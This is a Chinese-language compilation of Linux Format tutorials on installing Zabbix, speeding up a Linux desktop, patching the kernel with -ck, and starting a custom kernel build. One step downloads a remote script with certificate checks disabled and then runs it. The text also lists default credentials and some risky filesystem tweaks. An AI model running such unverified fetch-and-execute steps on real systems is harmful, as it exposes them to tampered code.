Zabbix 支持 MySQL、PostgreSQL 和 Oracle 数据库，并可以将收集的数据存储在其中任何一个中。默认配置期望一个名为 `zabbix` 的数据库。此数据库的默认用户名为 `zabbix`，且未配置密码。你可以编辑 `/etc/zabbix/zabbix_server.conf` 文件以更改这些预定义设置。

如果你决定更改数据库设置，请确保将其记下，因为我们稍后在为 Zabbix 创建数据库时需要它们。你需要从终端运行以下命令：

```
mysql -u root -e "create database zabbix"
mysql -u root -e "create user 'zabbix'@'localhost' identified by 'ChangeMe'"
mysql -u root -e "grant all on zabbix.* to 'zabbix'@'localhost'"
mysql -u root -e "flush privileges"
```

上面的命令都很容易理解。我们在第一个命令中创建数据库，在第二个命令中创建用户。请确保指定你在 `/etc/zabbix/zabbix_server.conf` 文件中定义的确切用户名和密码。有关 MySQL 管理的更多详细信息，请参阅框。

现在数据库已就位，我们准备对其进行填充：

```
mysql -uzabbix -p'ChangeMe' zabbix < /usr/share/zabbix/mysql/schema.sql
mysql -uzabbix -p'ChangeMe' zabbix < /usr/share/zabbix/mysql/images.sql
mysql -uzabbix -p'ChangeMe' zabbix < /usr/share/zabbix/mysql/data.sql
```

### 快速提示

由于所有数据都记录在数据库中，内存越多，数据库访问速度越快。

你可以使用图表右上角的栏来指定时间段。


订阅 Linux Format http://myfavouritemagazines.co.uk/LINsubs

## 安装前端

在我们继续安装前端之前，我们必须确保 `zabbix-server` 正在运行。命令 `zabbix-server` 将在它未运行时启动它。你现在可以打开浏览器访问 http://localhost/zabbix 进入安装向导，它将引导你完成安装。

点击右下角的 Next 开始安装。Zabbix 会报告在 `/etc/php.ini` PHP 配置文件中遇到的所有错误。错误会以红色高亮显示，向导会告知你错误变量在文件中指定的当前值，以及 Zabbix 所期望的值。

在修复所有报告的错误之前，你无法继续安装。不幸的是，你必须手动编辑文件以进行推荐的更改。在全新安装 PHP 的情况下，你需要更改 `timezone`、`post_max_size`、`max_execution_time` 和 `max_input_time` 值。

```
Save the /etc/php.ini file after making the changes and then run
apachectl restart
```

这将确保使用新的设置。

返回向导并点击屏幕底部的 Refresh。如果你是拥有让配置文件为所欲为的大师级巫师，Zabbix 将允许你继续安装。

点击 Next 并提供我们之前创建的数据库的详细信息，例如数据库名称、用户名和密码。

向导中的接下来几个步骤相当常规。你将看到迄今为止指定的所有信息，以便你进行审核，最后前端将被安装。当你点击 Finish 时，你将被自动重定向到登录屏幕。

至此，Zabbix 的服务器端设置已完成。你现在可以在网络上希望监控的所有机器上安装 `zabbix-agent`。在 CentOS 上，命令 `su -c "yum -y install zabbix20-agent"` 就能搞定。

> 快速提示

> 数据库是 Zabbix 的主要瓶颈。务必在系统之外正确调优你的数据库性能。

> Zabbix 不喜欢孤立的用户，用户必须至少属于一个用户组。

新安装的管理前端的默认用户名为 ‘admin’，密码为 ‘zabbix’。

当你首次登录 Zabbix 时，你可能会被呈现的大量信息感到有点不知所措。但别担心，我们很快会做一些不错的介绍，然后你可以慢慢熟悉 Zabbix 及其提供的所有功能。

不过，在继续之前，你需要做的第一件事是更改密码。点击页面右上角的 Profile，然后点击 Change Password 按钮。填写新密码并点击底部的 Save。

由于 Zabbix 是一个功能如此庞大的项目，很难将所有内容整合在一起。所有配置选项都分为顶部菜单栏上的五个主标签：Monitoring、Inventory、Reports、Configuration 和 Administration。

当你将鼠标移到这些标签中的任何一个上时，第二级菜单会反映每个标签提供的功能。例如，当你将鼠标悬停在 Monitoring 上时，第二级菜单将显示 Overview、Web、Graphs、Triggers 等。第二级菜单本质上是一个子菜单，反映所选主标签的选项。

## 监控一切

虽然试错法是掌握几乎任何事物的经久不衰的技术，但 Zabbix 并非如此。当然，你可以尝试通过所有标签、菜单、子菜单、下拉列表等找到自己的路，但如果你花一些优质时间阅读全面的 Zabbix 手册（https://www.zabbix.com/documentation/2.0/manual），会得到更好的服务。


网络上你希望监控的每个实体，无论是打印机、网络交换机、文件、路由器、物理服务器还是虚拟机等，都被识别为主机。要开始监控任何东西，你首先需要创建一个主机。要添加主机，请导航到 `Configuration > Hosts` 并点击右侧的 `Create host` 按钮。添加主机时，你必须至少选择一个主机组。这是因为权限与组相关联，而不是单个主机。填写其他所有详细信息，例如主机的 IP 地址，完成后点击 `Save`。更多详情，请参阅 https://www.zabbix.com/documentation/2.0/manual/config/hosts。


有关更多详细信息，请参阅 https://www.zabbix.com/documentation/2.0/manual/config/items/item。Zabbix 安装包自带一个 Zabbix server 主机，其中预先配置了 58 个监控项。但该主机默认并未启用。你可以启用它，并研究其中的监控项，从而更好地理解 Zabbix 的工作方式，以及配置主机和监控项的含义。

创建主机和监控项后，你可以直接前往“监测 > 最新数据”查看 Zabbix 已成功采集到的关于所配置主机的信息。如果你使用默认的 Zabbix server 主机，还可以看到以图表形式展示的已采集数据。在“本地数据”标题下，选择你希望了解详细信息的监控项，然后点击最右侧的“图表”链接。

## 触发器实战

你还需要为所配置的主机创建触发器。触发器用于分析已采集的数据，并将其与可接受的值进行比较。如果这两个值不一致，Zabbix 就会报告问题。你可以使用“大于”“小于”“不等于”等操作符来定义触发器。与监控项一样，你可以在“配置 > 主机”界面中创建触发器。

完成上述操作后，最后一步是配置系统发送通知，以便 Zabbix 在发现采集数据出现问题时发出提醒。这一步分两步完成。

首先，你需要定义一种媒体类型，即用于发送通知的投递机制，例如短信、Jabber、电子邮件等。你可以通过“管理 > 媒体类型”页面配置媒体类型。

接下来，你必须在“配置 > 动作”下定义一个动作。对于每个动作，你必须指定事件源（例如触发器）和操作。操作既可以是通过已配置的媒体类型发送消息，也可以是执行远程命令。当满足特定条件时，你可以使用后一个选项在远程机器上自动运行预定义的命令。你可以利用此功能执行关键命令，例如在远程机器磁盘空间不足时，删除旧文件并清空 `/tmp` 目录等。

如果你打算对网络上的所有机器监控同一组参数，那么反复执行上述所有步骤意义不大。Zabbix 通过模板提供了一种更实用的解决方案。你可以将模板视为一组预定义的实体，如监控项、触发器、动作等。你可以将这类模板应用到创建的每个新主机上，从而节省时间。


如果你希望将来自不同来源的信息分组，并在单个屏幕上显示，请前往“配置 > 屏幕”。


你可以设置多个用户帐户和用户组，并使用 Zabbix 全面的权限系统来限制对管理功能或被监控主机的访问。用户分为两类：一类可以控制 Zabbix 前端功能，另一类只能访问主机组中被监控的主机。用户可被分类为“用户”、“管理员”或“超级管理员”。只有超级管理员才能完全控制系统中的所有方面。你可以限制其他类型的用户可以访问和监控的功能和设备。例如，Zabbix 管理员可以访问“监测”和“配置”菜单，但无法访问任何已配置的主机组。不过，你可以添加权限以允许此类访问。

要创建新用户，请点击第一个菜单栏上的“管理”选项卡，然后点击第二个菜单栏中的“用户”。此屏幕会列出所有已配置的用户组。点击屏幕右上角的“用户组”下拉列表，然后选择“用户”。接着点击“创建用户”按钮。除了界面导航不太方便之外，Zabbix 也不是很直观。例如，你不能为单个用户分配权限，只能为用户组分配权限。因此，你必须先创建一个用户组，将用户添加到这个新用户组中，然后为新用户组定义权限，以便该用户获得更多访问权限。

你选择的监控项类型——无论是 Zabbix agent、SNMP 等——将决定你可以跟踪哪些监控项。

## 初窥门径

看起来我们似乎匆忙略过了本教程最重要的部分：提供如何使用该应用程序的说明。遗憾的是，鉴于该项目非常庞大，我们无法深入详述。不过，该项目提供了优秀的文档，详细讨论了每一步骤。此外，还有一个非常活跃的用户社区，如果你遇到任何问题，都可以向社区求助。

Zabbix 是那种需要你花费大量时间才能看到效果的工具。对于那些精通网络并且知道自己希望监控哪些参数的人来说，即使从未使用过网络监控应用，Zabbix 也会显得相当容易使用。

对 Zabbix 的批评大多集中在其 Web 界面上，而不是它所提供的特性或功能。尽管界面有时确实显得不够直观，但开发者提供了出色的机制来控制 Zabbix 的方方面面，值得高度赞扬。

# 黑客手册

2015

# 黑客技巧

是时候为了速度和纯粹乐趣而动手“黑客”一番了。学习一些 Gimp、终端、内核、发行版和手机黑客技巧。以真正的黑客风格，我们将向你展示如何通过打造最精简、最快速的系统来赢回大量时间，这样你就可以继续把时间挥霍在破解其他一切事物上。

- 加速 Linux..................................................124
- Linux 内核：打造你自己的...................................132
- Python：编写一个 Gimp 插件.................................136
- 终端：省时小技巧...........................................144

# 加速 Linux

卷起袖子，跟随 Linux Format 一起进入车库，为你的 Linux 机器来一次高辛烷值的全面调校。


与其他流行的专有操作系统相比，典型的 Linux 桌面发行版开箱即用，本身就称得上是一台运转良好的机器。从内核到各个应用程序，Linux 发行版组装线上的每个阶段的开发者都投入了大量精力，以确保不同的软件组件能够充分利用可用的硬件资源。这也是为什么你仍然可以在比现代智能手机内存还少的老旧单核处理器上运行——并且高效使用——Linux 的原因。

然而，仍有改进的余地。Linux 发行版开发者必须迎合广泛的受众，并确保与各种硬件的兼容性。这意味着你的发行版可能正在使用并未针对你的特定硬件进行优化的设置。此外，许多现代发行版充斥着臃肿的软件和服务，导致系统反应迟缓。好消息是，典型的 Linux 发行版出厂时处于可塑状态，你可以根据自己的需求进行定制，例如添加或移除各种软件。同样，要想从发行版中获得最佳性能，你需要打开引擎盖，调整一些关键组件，甚至去掉那些不需要的组件。得益于驱动 Linux 的软件的开源特性，调校 Linux 电脑以获得更快的性能并非十分困难。但这个过程可能较为复杂，需要你熟悉并了解构成发行版的主要组件。

在本专题中，无论你的经验水平如何，我们都会手把手地引导你将你的老黄牛式机器调校成一匹疾驰的骏马。此外，无论是现代多核机器，还是资源紧张的老式单核硬件，你都可以运用这些技巧，并学会如何轻松突破任何性能瓶颈。

> “典型的 Linux 发行版出厂时处于可塑状态，使你能够根据需求对其进行定制。”

## 桌面用户技巧

获得更快的启动速度、更流畅的桌面和更灵敏的应用程序。

每个人都喜欢速度飞快的电脑。在本节中，我们将介绍一些加速电脑的关键技巧。你不必是经验丰富的老手，也能让你的 Linux 机器发挥更大效能。有些技巧即使是新用户也能用来让他们的 Linux 发行版启动得更快。

无论你是否将 Linux 与其他操作系统双启动，在安装了你最喜欢的 Linux 发行版之后，启动过程必然要经过 Grub 引导加载程序。默认情况下，大多数桌面 Linux 发行版会在 10 到 30 秒之间显示 Grub 引导加载程序。

让电脑启动更快的最简单方法之一，就是缩短引导加载程序的等待时间。如果你总是启动默认选项，并且喜欢冒险，你甚至可以完全跳过倒计时，不过我们不建议你这样做。

要调整 Grub 倒计时，请打开一个终端，并在文本编辑器中打开 `/etc/default/grub` 文件，例如执行 `sudo nano /etc/default/grub` 即可在 Nano 编辑器中打开该文件。在文件中查找 `GRUB_TIMEOUT` 变量，它定义了引导加载程序的显示时长。然后将该变量对应的值改为 5 或 3 之类的数字。这个值的单位是秒。如果你将其设为 0，倒计时将被禁用，Grub 将直接启动默认操作系统。设置好新的倒计时后，保存文件，然后使用 `update-grub` 命令让 Grub 应用新的设置。

### 精简启动服务

启动时间较长的主要原因之一是系统在启动期间会启动不必要的应用程序和服务。但在你开始砍掉它们之前，最好先了解一下发行版启动过程中到底发生了什么。


Bootchart 是一个简单的应用程序，它可以剖析你的 Linux 启动过程，并帮助测量不同服务的加载时间。你可以使用 Bootchart 来识别启动过程中的任何瓶颈。该应用会记录所有活动，然后在一个详细的图像文件中显示结果。

你可以在所有主要发行版的软件源中找到 Bootchart，包括 Ubuntu、Fedora、OpenSUSE 和 Mageia。使用发行版的包管理器查找并安装 `bootchart` 软件包。安装完成后，你需要重新启动。当桌面启动后，前往 `/var/log/bootchart` 文件夹。在这里你会找到一个 `.png` 扩展名的图像文件，其中包含对上次启动过程的分析。每次后续启动时，都会生成一个带有时间戳的新图像文件。

图像顶部列出了各种统计信息，例如测试日期、发行版名称、内核版本和已启用的内核选项，以及系统启动所花费的时间。随后是两个图表，分别显示启动阶段的 CPU 负载和磁盘活动，接下来便是分析的核心部分。这个核心部分包含许多带有标签的条形，每个条形代表一个独立的进程。一些条形在几秒钟后结束，而另一些则一直延续到最后，描绘了诸如 Network Manager、Cron 和 CUPS 守护进程等服务。图像还显示了子进程，并用虚线将它们与父进程连接起来。


你可以修改 `/etc/xdg/autostart` 中的各个应用程序文件，以显示“启动应用程序”中默认隐藏的应用。

> “在任何发行版中释放资源的最简单方法，就是停止不需要的进程。”

现在你了解了电脑的启动方式以及会启动哪些服务，是时候根据自己的需求定制启动过程并节省一些时间了。在任何 Linux 发行版中释放资源的最简单方法，就是阻止不需要的进程运行，甚至阻止它们启动。大多数 Linux 发行版都提供了一个工具，让你可以查看正在发生的事情，并在必要时停止相关进程。

Ubuntu 自带“启动应用程序”工具，你可以通过它添加或移除希望在发行版启动时启动的任何应用程序。为了加快启动速度，请启动该应用并禁用其中任何不必要的服务。

默认情况下，该应用不会显示所有的应用程序和服务。要查看没有 GUI 的隐藏服务和应用程序，请打开终端，并使用 `cd /etc/xdg/autostart` 切换到列出所有服务的目录。在这个目录中，你会找到每个进程对应的单独文件。

所有已安装的应用程序和服务。每个文件中都有一个变量控制服务是否在启动应用程序工具中列出。你可以在每个文件内部使用以下命令更改此变量的默认值：

`sudo sed -i --in-place 's/NoDisplay=true/NoDisplay=false/g' *.desktop`

重新启动启动应用程序工具后，你会发现额外的启动程序，例如桌面共享、个人文件共享等。你可以阅读它们的描述并禁用不需要的项目。要禁用服务的启动，选择一个服务并取消其名称旁边的复选框。请记住不要点击删除按钮，这样以后可以重新启用它。另外，除非你了解其作用，否则不要禁用任何自动启动条目。

要在基于 Gnome 的机器上关闭缩略图，启动文件管理器 Files 并前往编辑 > 首选项。在这里切换到预览选项卡并将显示缩略图的值设置为从不。

此外，Ubuntu 用户应安装 CompizConfig 设置管理器 `sudo apt-get install compizconfig-settings-manager compiz-plugins-extra` 以更改桌面特效。同样，Gnome 用户应安装 Gnome 调整工具。它可在主流基于 Gnome 的桌面发行版的官方仓库中找到，例如 Fedora。基于 RPM 的用户可以使用 `yum install gnome-tweak-tool` 安装它，基于 Deb 的用户可以使用 `sudo apt-get install gnome-tweak-tool`。如果你使用 KDE，请前往系统设置并查找桌面特效，然后将其关闭。

> “花哨的图形合成特效不适合某些资源受限的机器。”

否则你可能会对发行版的可用性产生不利影响。因此，如果你的计算机没有蓝牙硬件，你可以安全地禁用蓝牙管理器小程序。但如果你禁用挂载助手，Ubuntu 将停止自动挂载可移动设备。

## 关闭花哨效果

现代桌面附带花哨的桌面特效，以为常规桌面任务增添活力，例如打开和关闭窗口和应用程序。然而，这些花哨的图形合成特效不适合某些资源受限的机器，应立即关闭。

还有一些我们习以为常的花哨功能。例如，文件管理器中的缩略图预览。在查看包含少量文件的文件夹时，这不会有太大区别。但在慢速机器上打开包含数百个文件的文件夹时，文件管理器会消耗宝贵的资源来生成缩略图。

同样，KDE 桌面中的 Nepomuk、Strigi 和 Akonadi 功能会占用内存资源。你可以从系统设置中的桌面搜索部分禁用 Nepomuk 和 Strigi。要禁用 Akonadi，请使用 `sudo akonadictl stop` 关闭 Akonadi 服务器。现在在文本编辑器中打开 `~/.config/akonadi/akonadiservrc` 文件并将 `StartServer` 参数从 `True` 改为 `False`。

由于 Akonadi 与 KDE 桌面深度绑定，当你启动任何启用 Akonadi 的应用程序时，它会自动启动 Akonadi 服务器。一些 KRunners 和 Plasma 小部件也使用 Akonadi，因此你也必须禁用它们。

要禁用启用 Akonadi 的 KRunners，请按键盘上的 Alt+F2 并点击扳手图标。然后取消选中 Nepomuk 桌面搜索和即时消息联系人运行器。接下来你需要告诉数字时钟小部件不要显示日历事件，方法是右键单击面板中的数字时钟，然后前往数字时钟设置。切换到日历选项卡并取消选中显示事件选项。

索引应用程序 `apt-xapian-index` 加快了某些搜索操作，但它会对较弱计算机的性能产生重大负面影响。你可以自由地使用 `sudo apt-get purge apt-xapian-index` 移除此软件包，因为它不是必需的。

## 更快安装应用


### 1 删除语言

`sudo apt-get update` 命令的输出有三种类型的行——hit、ign 和 get。大多数 ign 行与语言翻译有关。如果你使用所有应用程序的英文版本，可以通过抑制与语言相关的更新来加快更新速度。为此，在 `/etc/apt/apt.conf.d/00Aptitude` 文件中添加 `Acquire::Languages "none";`。

### 2 使用最近的镜像

如果你使用 Fedora，请使用 `sudo yum install yum-plugin-fastestmirror` 安装 fastestmirror 插件，它会测量到所有可用镜像的连接时间，然后选择最快的镜像。Ubuntu 用户应启动软件和更新应用程序，从下载自下拉菜单中选择其他选项，然后点击选择最佳服务器按钮。

### 3 使用 apt-fast

Apt-fast 是 apt-get 的即插即用替代品，通过从多个连接下载软件包来加快更新速度。通过使用 `sudo add-apt-repository ppa:apt-fast/stable` 添加其 PPA 安装它，然后使用 `sudo apt-get install apt-fast` 安装软件包。该脚本不适用于最新的 Ubuntu 版本，因此你必须手动获取软件包。

## 高级技巧

优化交换空间与索引，并精简你的内核。

前面几页的技巧能帮助你以最少的精力充分利用你的 Linux 发行版。但如果这些还不能满足你对速度的渴望，那就让我们继续学习一些高级调整技巧。不过，在应用这些技巧之前，请记住，它们不仅操作更复杂，而且如果粗心大意地应用，可能会对你的系统设置产生严重影响。

让我们从 RAM 磁盘开始。RAM 磁盘是一种基于内存的文件系统，它直接在计算机的 RAM 中创建存储区域，就像磁盘驱动器上的分区一样。这样做的主要好处是 RAM 磁盘非常快。由于重启机器时其中的数据会丢失，因此 RAM 磁盘只适用于需要重复性小数据区域进行缓存或用作临时空间的应用。

在创建 RAM 磁盘之前，请使用 `free` 命令检查你的发行版上未使用的 RAM 数量。然后使用 `sudo mkdir /mnt/ramdisk` 创建一个文件夹作为 RAM 磁盘的挂载点，并使用以下命令挂载它：

```
sudo mount -t tmpfs -o size=1024M tmpfs /mnt/ramdisk
```

这将使用专为创建 RAM 磁盘而设计的 tmpfs 文件系统创建一个 1GB 的 RAM 磁盘。

为了确保每次启动进入发行版时 RAM 磁盘都能自动挂载，你需要将其添加到 `/etc/fstab` 文件中。在文本编辑器中打开它，并在新的一行中输入以下内容：


```
tmpfs /mnt/ramdisk tmpfs nodev,nosuid,noexec,nodiratime,size=2048M 0 0
```

一旦你创建了 RAM 磁盘，就可以用它来存放浏览器的缓存。如果你使用 Chromium 浏览器，只需修改启动器条目，使用适当的开关（如 `--disk-cache-dir="/mnt/ramdisk"`）将其指向 RAM 磁盘即可。

如果你使用 Firefox，请在地址栏中输入 `about:config`。在列表中的某处右键单击，选择“新建”>“字符串”。当被问到首选项名称时，输入 `browser.cache.disk.parent_directory`，然后在其值中输入你想存储缓存的路径，例如 `/mnt/ramdisk`。接下来找到首选项 `browser.cache.disk.enable`，确保其设置为 True，否则双击它以切换该值。

## 控制交换空间使用

想知道为什么你的配备大量 RAM 的机器仍然起步缓慢？原因很可能是你的发行版仍在使用的硬盘交换空间，其读写速度比 RAM 慢。

如果你的系统有足够的内存来处理你交给它的任何任务，你应该尽量减少交换空间的使用。`swappiness` 参数管理内核将进程从物理内存转移到交换磁盘的能力。当进程被频繁地移出内存时，这可能会增加应用程序的响应时间。

命令 `cat /proc/sys/vm/swappiness` 将显示你的发行版当前设置的 `swappiness` 级别。Ubuntu 的默认 `swappiness` 值是 60。该参数将接受 0 到 100 之间的任意值。如果想避免交换出进程，请设置一个较低的值。如果将值设置为 0，内核将尽可能长时间避免将进程从物理内存交换到交换分区。


> 考虑使用诸如 Phoronix Test Suite 之类的基准测试工具，定期评估你的机器性能。

使用命令 `sudo sysctl vm.swappiness=10` 你可以临时将 `swappiness` 值更改为 10。此更改在重启计算机后会丢失。如果你在发行版的设置中发现问题，可以通过在文本编辑器中编辑 `/etc/sysctl.conf` 文件来保留该值。在文件中查找 `vm.swappiness` 参数并更改其值。如果不存在，可以将其添加到文件末尾，如下所示：`vm.swappiness=10`

## 创建额外的 RAM

如果你的问题是 RAM 不足，这个技巧适用于处理器性能相当不错但系统内存不多的机器，例如上网本和虚拟机。在此类计算机上，你可以使用 `zRAM` 内核模块在 RAM 中创建一个设备并对其进行压缩。得益于这种压缩因子，你有效地增加了你的 RAM。

请注意，使用 `zRAM` 时，你会给处理器带来负担，因为它必须不断进行压缩和解压缩。话虽如此，这比交换到硬盘更高效、更快。另请注意：`zRAM` 模块从内核 3.14 开始最终被认为稳定。

在 Ubuntu 上，你可以使用 `sudo apt-get install zram-config` 安装该模块，然后重新启动计算机。该软件包安装了一个脚本以将其作为服务运行，并且不需要任何配置。使用 `cat /proc/swaps` 命令检查它是否在线。如果 `zRAM` 完美运行，该命令应列出一个或多个 `/dev/zram` 分区。

如果你的处理器无法承受额外负载并且计算机的可用性受到影响，你可以使用以下命令禁用并删除 `zRAM` 模块：`sudo apt-get purge zram-config`

如果你使用 Fedora，可以使用 FedoraZram GitHub 项目 (http://bit.ly/FedoraZram) 中的脚本来启用 `zRAM`。下载并解压项目文件，然后进入解压后的目录。然后你必须使用以下命令安装 Fedora 工具来设置你的构建环境：`sudo yum install @development-tools fedora-package`

## 预加载常用应用

大多数用户都有一些经常使用的应用程序。`Preload` 是一个自适应预读守护进程，它在后台运行并分析并监控你使用的应用程序。根据这种持续分析，`Preload` 会预测你下一步可能会运行哪些应用程序，并提前将所有二进制文件和相关依赖项调入内存。这意味着当你启动应用程序时，它几乎会瞬间启动，因为它已经在内存中了。

例如，如果你在启动发行版后总是打开 Firefox 和 LibreOffice Writer，`Preload` 会在计算机启动时自动将它们都加载到内存中。当你登录并启动应用程序时，你会惊讶于它们启动的速度。虽然听起来很棒，但 `Preload` 并非适合所有人。它适用于打开多种不同应用程序的用户，但对于只偶尔加载应用程序的用户来说并不实用。在这种情况下，`Preload` 会不必要地消耗 RAM。

一些发行版默认包含 `Preload` 守护进程，几乎每个发行版的官方仓库中都有它。在 Ubuntu 上你可以使用 `sudo apt-get install preload` 安装它，而在 Fedora 上你可以使用 `sudo yum install preload` 获取它。

你可以使用其默认设置安全地使用 `Preload`。但是，如果需要调整它，可以在文本编辑器中编辑守护进程的配置文件 (`/etc/preload.conf`)。

## 加速文件系统

与 Linux 发行版内部的其他一切一样，文件系统也带有可调整的设置。默认情况下，发行版开发者为了安全而牺牲了性能，而默认设置可能对大多数用户有效，但专业用户可能需要调整设置以获得性能。

几乎每个桌面发行版都附带的流行文件系统是 `ext4` 文件系统。它的默认设置应适用于大多数工作负载，但如果你的基准测试结果表明文件系统是瓶颈，则有几种方法可以对其进行调整。

> “如果你的系统有足够的 RAM，你应该尽量减少交换空间的使用。”

首先要做的是关闭 `atime` 参数。当该参数处于活动状态时，每次访问文件时文件系统都会记录时间。为了完全阻止这种行为，请打开 `/etc/fstab` 文件并为所有 `ext4` 分区在现有选项中添加 `noatime` 选项。


如果你使用发行版进行大量读写操作，请使用 `e4defrag` 工具确保文件系统没有碎片。

## 技巧

假设 `sda1` 是你的 `ext4` 分区，命令 `sudo tune2fs -O dir_index /dev/sda1` 将启用该特性。然后运行 `sudo e2fsck -D /dev/sda1` 来为现有文件夹建立索引。

虽然目录索引是提升性能的安全选项，但更改文件系统的日志模式则不然，可能会损害你的文件系统。`ext4` 文件系统支持三种日志选项。日志（Journal）模式最慢但极其安全。其次是顺序（Ordered）模式，它在速度和安全性之间提供了合理的折中，大多数发行版默认使用该模式。在此模式下，所有数据和元数据会先提交到日志，然后再写入主文件系统。

第三个可选模式是回写（Writeback）模式，如果你注重性能，就应该使用这一模式。在此模式下，数据在其元数据记录到日志后立即写入主文件系统，从而提高了吞吐量。要更改文件系统的日志模式，请启动到 live 环境，然后运行：

```
sudo tune2fs -O has_journal -o journal_data_writeback /dev/sda1
```


> “康·科利瓦斯的内核补丁：你会注意到日常桌面任务中的性能提升。”

将`/dev/sda1`分区切换到回写模式。此外，通常情况下你其实并不需要对 Linux 文件系统进行碎片整理。简而言之，这是因为流行的 Linux 文件系统会以更智能的方式存放文件。文件系统不会让文件相互堆叠，而是为每个文件留出足够的增长空间。但如果你经常读写文件，并且经常测试分区的极限，那么你可能需要对文件系统进行碎片整理。如果你使用的是 ext4 文件系统，你的发行版可能已经包含了 `e4defrag` 工具。假设你的数据位于 `/dev/sda1` 分区，可以使用

```
sudo e4defrag -c /dev/sda1
```


基于 Enlightenment 的 Elive 发行版是我们低资源发行版评测中的胜出者（见 [评测，第44页，LXF186]），它包含了一些实验模式，可以在你的平板电脑和智能手机上试用。


KDE 内置的系统监视器提供了许多可自定义的选项，可帮助你监控并解决性能问题。

先检查文件系统的碎片化程度。完成后，该命令会提示你的文件系统是否需要碎片整理。如果需要，请使用

```
sudo e4defrag /dev/sda1
```

### 修补内核

如果你在寻求终极的软件性能升级，你需要修补内核。首先，有多个性能优化内核补丁可供选择。

最流行的标准内核替代品之一，是由康·科利瓦斯从大量不同的性能补丁中编译而成的。该内核补丁集名为 `-ck`，其构建重点是桌面性能。

安装之后，你会注意到日常桌面任务以及玩游戏和制作多媒体时的性能提升。

要安装它，请先用发行版的包管理器下载补丁所对应版本的内核源码，以及构建内核所需的全部工具。然后从 Koliva 的网站（http://bit.ly/ConKolivas）下载补丁，并在内核源码文件夹中使用 `patch` 命令应用更改，例如：

```
sudo patch -p1 < patch-3.*.ck1
```

现在，按照你的发行版的说明构建内核。

如果你使用 Ubuntu，一个更简单的方法是使用这个脚本（http://bit.ly/KernelckUbuntu），它最初由 Ubuntu 巴西社区成员编写，该脚本会下载原始内核以及 Koliva 的补丁，并将其编译为可安装的二进制文件。

使用以下命令将脚本下载到 `/tmp` 文件夹：

```
cd /tmp; wget --no-check-certificate https://raw.githubusercontent.com/chilicuil/learn/master/sh/kernel-ck-ubuntu
```

然后执行它：`sh kernel-ck-ubuntu`

这需要一些时间才能完成（也许正好喝杯茶？）。完成后，你会得到一堆二进制文件，可以使用以下命令安装：

```
sudo dpkg -i /tmp/*.deb.
```

# 从你的 Mac 中获得更多

试用 MacFormat 的新刊免费*，在获奖应用中体验！

macformat.com/ipad

可在 App Store 上获取

内容充实、实用教程与独立建议——发现为何 MacFormat 连续七年成为英国最畅销的 Apple 杂志！

* 仅限新应用订阅用户

## 自定义构建

不要只使用发行版的默认设置——你可以自行编译 Linux 内核以获得额外性能和功能。


这里有一个问题：在你的 Linux 安装中，你使用最多的软件是什么？你可能会倾向于说 Firefox 或 KDE，但一个同样有效的回答是内核。当然，你不会直接使用它——它在后台默默运行，保持一切正常运转——但没有它，你什么也做不了。好吧，你可以看着你的闪亮硬件并盯着空的引导加载程序屏幕，但那没什么乐趣……

无论如何，虽然内核是 Linux 安装中最重要的组件，但它通常被视为一个神秘的黑盒子，执行只有最极客的极客才能理解的魔法。即使你是一位关注内核新闻的高级 Linux 用户，你可能也从未尝试过自己编译内核。毕竟，当你的发行版已经提供了内核时，为什么要费那个劲呢？原因如下：

- 许多发行版自带的内核为广泛的硬件进行了优化。通过自行编译，你可以使用针对你的 CPU 非常具体的优化，从而获得速度提升。

- 内核源代码中的某些功能被标记为实验性，并且默认不包含在发行版内核中。通过自行编译，你可以启用它们。

- 在互联网的荒野中，有大量有用的内核补丁可以应用到主源代码中以添加新功能。

- 而从好奇心的角度来看，编译和安装新内核将让你深入了解 Linux 的工作原理。

因此，在本教程中，我们将逐步向你展示如何获取、配置、构建和安装新内核。我们还将介绍如何应用来自互联网的补丁。但请注意这个大大的警告：安装新内核就像对你的 Linux 系统进行脑外科手术一样。这是一个引人入胜的话题，但事情可能会出错。我们不对你损坏安装负责！因此我们强烈建议在你可以随意折腾的 Linux 安装上进行，或者在虚拟机内部进行。

### 设置

你需要做的第一件事是获取内核源代码。不同的发行版使用不同版本的内核，并且大多数都会添加额外的补丁，但在这种情况下，我们将采取纯净干净的方法——使用 Linus Torvalds 本人签名的源代码。

内核在互联网上的开发中心位于 `www.kernel.org`，在那里你可以下载最新的官方发布版。在本教程中，我们将使用版本 3.17.1，文件名为 `linux-3.17.1.tar.xz`；到你阅读本文时可能已经有更新的版本了，因此在按照步骤操作时，请相应地更改版本号。

现在，不要将源代码解压到你的主目录（或临时位置），最好将其解压到 `/usr/src` 中。这现在并不是至关重要的，但稍后会派上用场——某些程序需要找到内核头文件。如果是当前运行的内核，它们通常会在 `/usr/src` 中查找源代码。VirtualBox 就是一个例子，因为它有自己的内核模块，并且在安装期间需要内核源代码头文件来构建该模块。

因此，像这样解压源代码（请注意，本教程中的所有命令都应以 root 身份运行）：

```
tar xfv linux-3.17.1.tar.xz -C /usr/src/
```

解压过程需要一段时间，因为最近版本的内核源代码几乎有 600MB。进入 `cd /usr/src/linux-3.17.1` 然后执行 `ls` 快速浏览一下。我们不会在这里解释内核中所有不同目录的作用，因为那是完全不同教程的主题，但你可能会想探头看看其中几个。`mm` 中你会找到内存管理器代码，例如，而 `arch/x86/kernel/head_32.S` 也值得注意——它是 32 位 PC 的汇编启动代码。它是内核进行“起初”工作的地方，可以这么说。

## Linux 内核

现在，让我们进入构建内核最精彩的部分：针对你的特定系统进行定制。在 `/usr/src/linux-3.17.1` 主目录中，输入：

`make xconfig`

如果你安装了 Qt4 开发文件（例如 Debian/Ubuntu 中的 `libqt4-dev`），该命令将构建并运行一个图形化配置工具。若想使用基于 GTK 的替代方案，试试：

`make gconfig`

如果两种图形化版本都无法运行，还有一个非常不错的基于文本的备选方案，使用以下命令（需要 Ncurses）：

`make menuconfig`

尽管界面不同，但这些配置工具都显示相同的选项。而且选项非常多——事实上数以千计。如果你在某个昏暗的冬夜阅读本教程，又有闲暇时间，不妨泡杯茶，浏览一下其中的一些类别。

诚然，其中大部分信息都是超级技术性的，实际上只适用于非常特定的硬件或系统设置，但仅仅通过浏览，你就能看到 Linux 内核是多么功能丰富、用途多样。你也会明白为什么它能被用于从手机到超级计算机的一切设备。

## 调校你的内核

在本教程中，我们将重点介绍 `Xconfig` 工具，因为它布局最好，也最容易导航。在用户界面的左侧，你会看到选项和类别的树形视图——如果你点击某个类别，其子选项将显示在右上角的面板中。接着，点击这些子选项之一，其帮助信息会出现在右下角的面板中。内核中的大多数选项都有详尽的文档说明，所以四处点击看看，享受探索的乐趣吧。

